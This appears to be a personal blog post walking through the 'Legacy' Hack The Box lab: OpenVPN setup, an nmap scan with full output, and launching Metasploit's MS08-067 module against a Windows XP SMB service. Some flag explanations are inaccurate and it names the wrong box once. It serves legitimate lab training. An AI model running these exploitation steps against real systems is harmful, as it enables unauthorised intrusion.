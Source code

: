 +++
author = "Jake Rice"
title = "This is my Legacy"
date = "2022-05-25"
description = ""
tags = [
    "HTB",
    "CTF_Walkthrough",
]

featureImage = "https://raw.githubusercontent.com/JRHacka/Blog-Site/main/jrhacka/static/images/Legacy_logo.png"
thumbnail = "https://raw.githubusercontent.com/JRHacka/Blog-Site/main/jrhacka/static/images/Legacy_logo.png"
shareImage = "https://raw.githubusercontent.com/JRHacka/Blog-Site/main/jrhacka/static/images/Legacy_logo.png"

+++
The clever titles just don't stop! This is my walkthrough of the Legacy HTB. Enjoy, find the video below, and reach out if you have any questions. 

<!--more-->
---
## Startup

This is an entry level beginner freindley box, so the walkthrough is going to be the same. With that being said, the first step that other walkthoughs always skip over is spinning up the box and getting connected. While it is easy once you know how to do it if you don't know how you'll never be able to get started. Feel free to skip to the next section if you already know how to do this.

HTB has 2 options when it comes to completing their boxes. You can spin up a machine via HTB, or connect your own using OpenVPN. I prefer to connect my because of the customizations and different tools I have on my Kali machine, but if you want here is where to find the HTB Attack Box.

The first step if you are connecting via OpenVPN is to first make sure you have OpenVPN installed on your device. Either start typing the command see if it autofills, or if using Kali run:
```bash
sudo apt install openvpn
```
Once you are sure is installed in the same place where you see the attack box you can select OpenVPN. Change the server if desired and then download the file. Find the file location and run the following command:
```bash
openvpn insert/filepath/here
```

After you have connected you may have to refresh the page in order for the connect box to turn green and show your HTB IP. After that the last step is to find the Jerry box and start it up.
{{% notice note "Heads Up"%}}
That IP in the green box will be the IP you use for yourself during interactions with this box. Do not use your actual IP.
{{% /notice %}}

---

## Intelligence Gathering

The first thing I always like to do is run NMap. Here is the NMap scan I ran and a breakdown of the flags I used.
```bash
nmap -sT -sV -Pn -p- -A -T3 tar.get.ip.add -oA /home/kali/HTB/WU/Legacy/nmap/scans
```
{{% notice tip "NMAP Flags"%}}
-sT = TCP Conenct() Scan

-sV = OS Version

-Pn = Scan all ports, and don't ping. (Scans ports no matter what)

-p- = All ports

-A = All

-T3 = Speed level. (Options 1-5 with 1 being slowest and 5 fastest)

-oA = output namp in the three formatss to the specified file path.
{{% /notice %}}

While that is running let's go ahead and see if we can find anything at the IP. Open up a web browser and put in the target machines IP address. We don't get any results, but we'll check a couple of the usual directories just in case. I searched around using /admin /login /user /signin /contact and got nothing, so lets dive in to those NMap results.
```bash
Starting Nmap 7.92 ( https://nmap.org ) at 2022-07-31 15:13 EDT
Stats: 0:00:01 elapsed; 0 hosts completed (1 up), 1 undergoing Connect Scan
Connect Scan Timing: About 4.02% done; ETC: 15:13 (0:00:24 remaining)
Nmap scan report for 10.10.10.4
Host is up (0.036s latency).
Not shown: 65532 closed tcp ports (conn-refused)
PORT    STATE SERVICE      VERSION
135/tcp open  msrpc        Microsoft Windows RPC
139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
445/tcp open  microsoft-ds Windows XP microsoft-ds
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.92%E=4%D=7/31%OT=135%CT=1%CU=33269%PV=Y%DS=2%DC=T%G=Y%TM=62E6D4
OS:75%P=x86_64-pc-linux-gnu)SEQ(SP=107%GCD=1%ISR=10A%TI=I%CI=I%II=I%SS=S%TS
OS:=0)OPS(O1=M54DNW0NNT00NNS%O2=M54DNW0NNT00NNS%O3=M54DNW0NNT00%O4=M54DNW0N
OS:NT00NNS%O5=M54DNW0NNT00NNS%O6=M54DNNT00NNS)WIN(W1=FAF0%W2=FAF0%W3=FAF0%W
OS:4=FAF0%W5=FAF0%W6=FAF0)ECN(R=Y%DF=Y%T=80%W=FAF0%O=M54DNW0NNS%CC=N%Q=)T1(
OS:R=Y%DF=Y%T=80%S=O%A=S+%F=AS%RD=0%Q=)T2(R=Y%DF=N%T=80%W=0%S=Z%A=S%F=AR%O=
OS:%RD=0%Q=)T3(R=Y%DF=Y%T=80%W=FAF0%S=O%A=S+%F=AS%O=M54DNW0NNT00NNS%RD=0%Q=
OS:)T4(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T5(R=Y%DF=N%T=80%W=0%S=Z%A=
OS:S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=N%T=80%W=0%S=A%A=O%F=R%O=%RD=0%Q=)T7(R=Y%DF
OS:=N%T=80%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=80%IPL=B0%UN=0%RIPL=G
OS:%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=S%T=80%CD=Z)

Network Distance: 2 hops
Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

Host script results:
|_smb2-time: Protocol negotiation failed (SMB2)
|_clock-skew: mean: 5d00h27m38s, deviation: 2h07m16s, median: 4d22h57m38s
|_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:bb:84 (VMware)
| smb-security-mode: 
|   account_used: guest
|   authentication_level: user
|   challenge_response: supported
|_  message_signing: disabled (dangerous, but default)
| smb-os-discovery: 
|   OS: Windows XP (Windows 2000 LAN Manager)
|   OS CPE: cpe:/o:microsoft:windows_xp::-
|   Computer name: legacy
|   NetBIOS computer name: LEGACY\x00
|   Workgroup: HTB\x00
|_  System time: 2022-08-06T00:11:25+03:00

TRACEROUTE (using proto 1/icmp)
HOP RTT      ADDRESS
1   37.58 ms 10.10.14.1
2   37.69 ms 10.10.10.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 48.41 seconds
```

So we've got one item that really catches my eye in that NMap scan. Port 445 Windows XP microsoft-ds is open, and based on previous knowledge a really good place to start.

---
## Port 445 - Windows XP microsoft-ds

In the NMap scan the first thing that should catch your eye is that port 445 is open, and after a quick google you'll quickly find MS08-067. Port 139 and 445 are SMB ports that are used for file transfer, and back in the day it used to run on top of NetBIOS. Now days port 445 TCP can be used for file transfer. When looking for this specific version you do find that there is an exploit for it. 

---


## Exploiting the Vulnerablity

From our research we see we can use this exploit via Metasploit. Lets get it spun up and dive in.
```bash
msfconsole
```
Once you have it started we can get it set up.

{{% notice tip "Metasploit Setup"%}}
1-Search MS08-067

2-Use show options

3-Set the rhost as the target IP (set rhost tar.get.ip.add)

4-Set the lhost as your IP (set lhost your.HTB.ip.add)(The IP given to you via HTB (it's in the green box))

5-Use exploit (exploit OR run)
{{% /notice %}}

It works!! Now time to dig around and find the flags. I'll leave that part for you, but feel free to message me if you need a hand!

---

## Walkthrough Video

{{< youtube 39tOHZCG7E0 >}}

<br>